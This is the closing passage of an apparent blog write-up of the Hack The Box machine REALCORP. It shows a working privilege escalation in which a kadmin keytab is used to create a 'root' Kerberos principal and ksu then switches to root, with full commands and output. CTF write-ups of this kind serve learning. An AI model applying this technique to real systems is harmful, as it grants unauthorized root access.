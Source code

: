    2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
   2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB
{%endhighlight%}

I find that these are the services that I can use using this keytab file without supplying the password. I had to read about about a lot of other kerberos stuff to find how can I use this to my advantage. I find that we can create principles/services using the kadmin, we can use ksu to switch users using kerberos as authentication mechanism. 

The only problem was I wasn't sure about how to go further. And finally after a one last nudge I was able to see what I had to do. 

Basically we can create a principle named "root" using the kadmin and set a password for that principle. After that we can use ksu to switch to root using that principle.

{%highlight text%}
[admin@srv01 etc]$ kadmin -p kadmin/admin -kt krb5.keytab
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin with keytab krb5.keytab.
kadmin:  addprinc root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  quit

[admin@srv01 etc]$ ksu root -n root@REALCORP.HTB
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 ~]# whoami
root
[root@srv01 ~]# hostname
srv01.realcorp.htb
{%endhighlight%}

And that was the story of how I rooted my first hard box. This took me 15 days to root. I wasn't at it constantly. I came back when I had an idea to test. This was a really fun box and I got to learn a ton about kerberos. 

Till next time! TaTa